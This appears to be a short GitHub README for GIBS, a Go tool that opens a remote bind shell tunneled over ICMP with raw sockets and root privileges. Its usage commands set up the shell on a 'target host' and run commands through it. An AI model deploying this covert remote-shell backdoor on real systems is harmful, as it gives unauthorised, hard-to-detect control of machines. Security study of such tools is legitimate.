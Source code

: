 # GIBS

The **G**o **I**CMP **B**ind **S**hell is a remote bindshell tunneled over ICMP. Although, since this is ICMP, we use raw sockets. It technically doesn't "bind" to any port, and requires root privileges to run.

### Usage

Set up the bindshell on a target host:

```
sudo gibs -bind-shell
```

Execute commands remotely:

```
sudo gibs -host 127.0.0.1 -cmd 'uname -a'
```
